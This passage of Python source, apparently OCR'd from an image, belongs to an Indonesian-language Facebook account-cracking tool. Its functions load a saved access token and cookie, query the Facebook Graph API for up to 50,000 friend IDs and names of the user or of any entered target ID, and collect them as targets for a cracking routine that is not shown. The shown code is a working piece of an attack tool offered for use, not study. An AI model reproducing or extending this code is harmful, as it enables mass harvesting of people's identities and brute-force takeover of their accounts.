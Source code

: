             z=json.loads(url.text)
            for i in z['friends']['data']:
                uid = i["id"]
                nama = i["name"]
                id.append(uid+"<=>"+nama)
        except KeyError:
            print(f"{B} | ")
            print(f"{B} | ")
            print(f"{P}[•]{M} User id tidak di temukan");menu()
    if len(id) == 0:
       print(f"{B} | ")
       print(f"{P}[•]{M} Maaf total id anda adalah {B}{len(id)}");exit()
    else:
        print(f"{B} | ")
        print(f"{P}[•] Total id : {B}{len(id)}")
        fii_xd()
##### CRACK PERTEMANAN 
def listteman():
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
    except IOError:
        print(f"{B} | ")
        print(f"{P}[•]{M} cookie modar dinggo wae ");exit()
    try:
        url= requests.Session().get("https://graph.facebook.com/me?fields=friends.limit(50000)&access_token=%s"%(token),cookies=cookie)
        z=json.loads(url.text)
        for i in z['friends']['data']:
            uid = i["id"]
            nama = i["name"]
            id.append(uid+"<=>"+nama)
    except KeyError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•] User id tidak di temukan");os.sys.menu()
    if len(id) !=0:
        print(f"{P}[•] Total id : {B}{len(id)}")
        fii_xd()
    else:print(f"{P}[•]{M} Maaf total id : {B}{len(id)}");exit()
##### CRACK PUBLIK
def publik():
    try:
        token=open("login/token.json","r").read()
        cookie = {'cookie':open('login/cookie.json','r').read()}
    except IOError:
        print(f"{B} | ")
        print(f"{B} | ")
        print(f"{P}[•]{M} cookie modar dinggo wae ");exit()
    print(f"{B} | ")
    print(f"{B} | ")
    _id_=input(f"{P}[•] Masukan user id : {B}")
    try:
        url= requests.Session().get("https://graph.facebook.com/%s?fields=friends.limit(50000)&access_token=%s"%(_id_,token),cookies=cookie)
        z=json.loads(url.text)
        for i in z['friends']['data']:
            uid = i["id"]
            nama = i["name"]
            id.append(uid+"<=>"+nama)
    except KeyError:
        print(f"{B} | ")
        print(f"{B} | ")